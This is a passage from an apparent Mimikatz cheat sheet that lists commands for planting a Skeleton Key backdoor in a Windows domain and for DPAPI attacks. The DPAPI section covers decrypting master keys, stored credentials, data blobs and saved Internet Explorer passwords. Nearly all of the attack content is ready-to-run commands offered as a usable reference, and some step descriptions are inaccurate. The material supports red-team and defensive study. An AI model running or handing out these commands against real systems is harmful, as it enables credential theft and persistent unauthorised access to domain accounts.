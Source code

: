     ```

#### Skeleton Key Attack

1. **Install a Skeleton Key**: Installs a Skeleton Key in memory, allowing a universal password to be used for any domain account.
    ```bash
    misc::skeleton
    ```
2. **Remove the Skeleton Key**: Removes the Skeleton Key from memory.
    ```bash
    misc::skeleton /remove
    ```
3. **Verify the Skeleton Key**: Verifies that the Skeleton Key has been installed by checking for the universal password.
    ```bash
    sekurlsa::logonpasswords
    ```

## DPAPI Attacks

Mimikatz can decrypt data protected by the Data Protection API (DPAPI), which is used by Windows to secure various secrets.

#### Master Key Decryption

1. **Dump DPAPI Master Keys**: Decrypts a DPAPI master key using the user's password.
    ```bash
    dpapi::masterkey /in:<encrypted_masterkey> /sid:<SID> /password:<user_password>
    ```
2. **Extract Master Keys from Memory**: Extracts cached DPAPI master keys from memory.
    ```bash
    dpapi::cache
    ```
3. **Decrypt Master Keys Using a Backup Key**: Decrypts a DPAPI master key using a backup key file.
    ```bash
    dpapi::masterkey /in:<encrypted_masterkey> /pvk:<backup_key.pvk>
    ```

#### Credential and Secret Decryption

1. **Decrypt DPAPI-Protected Credentials**: Decrypts DPAPI-protected credentials.
    ```bash
    dpapi::cred /in:<encrypted_credential>
    ```
2. **Decrypt DPAPI-Protected Secrets**: Decrypts generic DPAPI-protected data blobs.
    ```bash
    dpapi::blob /in:<encrypted_blob>
    ```
3. **Decrypt Internet Explorer Saved Passwords**: Decrypts saved passwords from Internet Explorer.
    ```bash
    dpapi::cred /in:<encrypted_ie_credentials>
    ```
